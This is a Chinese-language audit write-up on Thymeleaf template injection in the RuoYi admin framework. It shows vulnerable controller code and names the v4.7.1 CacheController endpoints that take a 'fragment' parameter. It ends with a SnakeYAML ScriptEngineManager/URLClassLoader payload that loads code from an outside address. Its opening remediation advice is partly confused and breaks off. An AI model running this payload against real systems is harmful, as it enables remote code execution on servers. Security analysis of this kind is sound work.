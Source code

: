 ```php
}

```

建议开发人员使用Thymeleaf的内置安全性功能来防止路径遍历攻击，并确保不将用户输入直接传递给模板或模板构造器。例如，可以使用Spring Security提供的表达式语言SpEL对请求参数进行安全处理，比如加入${#httpServletRequest.parameter('name')}，将其设置在Thymeleaf中的每个变量前。另外，要注意限制允许访问的文件夹以及最小化在“src/main/resources”等敏感目录下存储的文件。更多关于Thymeleaf路径遍历漏洞及修复方法的信息，Thymeleaf模板注入形成原因，简单来说，在Thymeleaf模板文件中使用th:fragment、 ， th:text 这类标签属性包含的内容会被渲染处理。并且在Thymeleaf渲染过程中使用 ${...} 或其他表达式中时内容会被Thymeleaf EL引擎执行。因此我们将攻击语句插入到 ${...} 表达式中，会触发Thymeleaf模板注入漏洞。如果带有 @ResponseBody 注解和 @RestController 注解则不能触发模板注入漏洞。因为 @ResponseBody 和 @RestController 不会进行View解析而是直接返回。

**SSTI（模板注入）漏洞点:**

我们在审计模板注入（SSTI）漏洞时，主要查看所使用的模板引擎是否有接受用户输入的地方。主要关注xxxController层代码。

在Controller层，我们关注两点： 1、URL路径可控。 ， 2、return内容可控。对应上面两个关注点，举例说明如下。

**1、URL路径可控**

@RequestMapping("/hello")  
public class HelloController {  
@RequestMapping("/whoami/{name}/{sex}")  
public String hello(@PathVariable("name") String name,  
@PathVariable("sex") String sex){  
return "Hello" + name + sex;  
}  
}

**2、return内容可控**

@PostMapping("/getNames")  
public String getCacheNames(String fragment, ModelMap mmap)  
{  
mmap.put("cacheNames", cacheService.getCacheNames());  
return prefix + "/cache::" + fragment;  
}

根据上面两个关注点，发现v4.2 并没有发现存在Thymeleaf模板注入漏洞点。

但在 若依v4.7.1 发现存在 return内容可控 的情况。

在 若依v4.7.1 的 RuoYi-v4.7.1\\ruoyi-  
admin\\src\\main\\java\\com\\ruoyi\\web\\controller\\monitor 下多了一个CacheController.java 文件。该文件下有多个地方 Return内容可控 。  
![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1680787241203-6f2ef9e8-a226-48a4-bb02-f9d24032b16d.png)  
接收到 fragment 后，在return处进行了模板路径拼接。根据代码我们知道根路径为 /monitor/cache ，各个接口路径分别为 /getNames ， /getKeys ， /getValue 。请求方法为 POST ，请求参数均为fragment 。

### 漏洞复现：

构造一下payload，org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager  
\[!!java.net.URLClassLoader \[\[!!java.net.URL \["ftp://此处填入DNSlog地  
址"\]\]\]\]')

![](https://cdn.nlark.com/yuque/0/2023/png/1353500/1680792503748-19a18f7e-21d6-44ec-956c-08e1b3338410.png)
